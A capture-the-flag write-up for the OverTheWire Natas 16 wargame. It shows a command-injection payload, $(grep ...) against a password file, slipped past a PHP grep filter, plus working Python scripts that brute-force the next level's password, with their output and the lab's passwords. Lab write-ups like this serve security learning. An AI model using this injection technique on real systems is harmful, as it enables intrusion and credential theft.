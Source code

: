 ```yaml
---
layout: post
title: "OverTheWire: Natas 16"
date: 2016-11-22 12:00:00
share: true
comments: true
tags: overthewire natas
---
```


```php
<pre>  
<?  
$key = "";  
  
if(array_key_exists("needle", $_REQUEST)) {  
    $key = $_REQUEST["needle"];  
}  
  
if($key != "") {  
    if(preg_match('/[;|&`\'"]/',$key)) {  
        print "Input contains an illegal character!";  
    } else {  
        passthru("grep -i \"$key\" dictionary.txt");  
    }  
}  
?>  
</pre>  
```

  
The source code shows that many characters can't be used, yet following the theme of the previous challenges, we can inject code...  

![15]({{ site.baseurl}}/images/15.png)

Unfortunately, it seems that injecting code with base64 encoded strings won't work, I tried something simple like `$(base64 -d <<< YQo=)` didn't work. Another way is using boolean based injection, just like our previous example! For that to work, we need to find a way to answer our question. One way is the fact that it shows data if substring exists, otherwise it's empty.  


Using that logic, we'll be interrogating the server:

Question: Does `/etc/natas_webpass/natas17` contain the letter a?  
Input: `doomed$(grep a /etc/natas_webpass/natas17)`
Output if Yes: _empty_
Output if No: `doomed`

Let's get our filtered character set first:

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  
  
filteredchars = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
```

Next, we'll be using regex again to get the exact password (posting entire code):  

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
  
for i in range(32):  
 for char in filteredchars:  
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  if 'doomed' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break  
```    

  
Output:
```
b  
bc  
bcd  
bcdg  
bcdgh  
bcdghk  
bcdghkm  
bcdghkmn  
bcdghkmnq  
bcdghkmnqr  
bcdghkmnqrs  
bcdghkmnqrsw  
bcdghkmnqrswA  
bcdghkmnqrswAG  
bcdghkmnqrswAGH  
bcdghkmnqrswAGHN  
bcdghkmnqrswAGHNP  
bcdghkmnqrswAGHNPQ  
bcdghkmnqrswAGHNPQS  
bcdghkmnqrswAGHNPQSW  
bcdghkmnqrswAGHNPQSW3  
bcdghkmnqrswAGHNPQSW35  
bcdghkmnqrswAGHNPQSW357  
bcdghkmnqrswAGHNPQSW3578  
bcdghkmnqrswAGHNPQSW35789  
bcdghkmnqrswAGHNPQSW357890  
8  
8P  
8Ps  
8Ps3  
8Ps3H  
8Ps3H0  
8Ps3H0G  
8Ps3H0GW  
8Ps3H0GWb  
8Ps3H0GWbn  
8Ps3H0GWbn5  
8Ps3H0GWbn5r  
8Ps3H0GWbn5rd  
8Ps3H0GWbn5rd9  
8Ps3H0GWbn5rd9S  
8Ps3H0GWbn5rd9S7  
8Ps3H0GWbn5rd9S7G  
8Ps3H0GWbn5rd9S7Gm  
8Ps3H0GWbn5rd9S7GmA  
8Ps3H0GWbn5rd9S7GmAd  
8Ps3H0GWbn5rd9S7GmAdg  
8Ps3H0GWbn5rd9S7GmAdgQ  
8Ps3H0GWbn5rd9S7GmAdgQN  
8Ps3H0GWbn5rd9S7GmAdgQNd  
8Ps3H0GWbn5rd9S7GmAdgQNdk  
8Ps3H0GWbn5rd9S7GmAdgQNdkh  
8Ps3H0GWbn5rd9S7GmAdgQNdkhP  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPk  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw  
```

Natas 17 password is: `8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`

